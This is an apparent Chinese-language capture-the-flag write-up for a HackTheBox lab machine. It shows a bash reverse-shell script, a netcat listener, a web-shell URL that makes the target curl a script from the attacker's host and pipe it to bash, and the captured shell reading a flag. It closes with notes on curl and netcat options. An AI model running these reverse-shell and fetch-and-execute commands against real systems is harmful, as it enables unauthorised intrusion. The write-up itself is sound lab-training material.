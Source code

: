 `\#!/bin/bash`

`bash -i >& /dev/tcp/10.10.16.90/1337 0>&1`

nc监听端口

`nc -nvlp 1337`

python创建简易服务器

`python3 -m http.server 8090`

目标机curl本机bash文件并执行

`http://thetoppers.htb/shell.php?cmd=curl%2010.10.16.90:8090/shell.sh%20|%20bash`

浏览器访问：http://thetoppers.htb/shell.php?cmd=curl 10.10.16.90:8090/shell.sh | bash

```powershell
┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 1337
listening on [any] 1337 ...
connect to [10.10.16.90] from (UNKNOWN) [10.129.82.250] 41074
bash: cannot set terminal process group (1391): Inappropriate ioctl for device
bash: no job control in this shell
www-data@three:/var/www/html$ ls
ls
images
index.php
shell.php
www-data@three:/var/www/html$ cd ../
cd ../
www-data@three:/var/www$ ls
ls
flag.txt
html
www-data@three:/var/www$ cat flag.txt
cat flag.txt
a980d99281a28d638ac68b9bf9453c2b
www-data@three:/var/www$
```



> cURL 是一个网络数据传输项目，通常说 cURL 是指 curl 命令行工具，它支持 DICT、FILE、FTP、FTPS、Gopher、HTTP、HTTPS、IMAP、IMAPS、LDAP、LDAPS、POP3、POP3S、RTMP、RTSP、SCP、SFTP、SMB、SMBS、SMTP、SMTPS、Telnet 与 TFTP 等协议，而 curl 的底层使用的是 libcurl 库，libcurl 与 curl 组成了 cURL 项目。

> ## nc命令用法举例
>
> 什么是nc
> nc是netcat的简写，有着网络界的瑞士军刀美誉。因为它短小精悍、功能实用，被设计为一个简单、可靠的网络工具
>
> ## nc的作用
>
> （1）实现任意TCP/[UDP](https://so.csdn.net/so/search?q=UDP&spm=1001.2101.3001.7020)端口的侦听，nc可以作为server以TCP或UDP方式侦听指定端口
> （2）端口的扫描，nc可以作为client发起TCP或UDP连接
> （3）机器之间传输文件
> （4）机器之间网络测速
> nc的控制参数不少，常用的几个参数如下所列：
>
> 1. **-l**
>    用于指定nc将处于侦听模式。指定该参数，则意味着nc被当作server，侦听并接受连接，而非向其它地址发起连接。
> 2. **-p <por/t/>**
>    暂未用到（老版本的nc可能需要在端口号前加-p参数，下面测试环境是centos6.6，nc版本是nc-1.84，未用到-p参数）
> 3. **-s**
>    指定发送数据的源IP地址，适用于多网卡机
> 4. **-u**
>    指定nc使用UDP协议，默认为TCP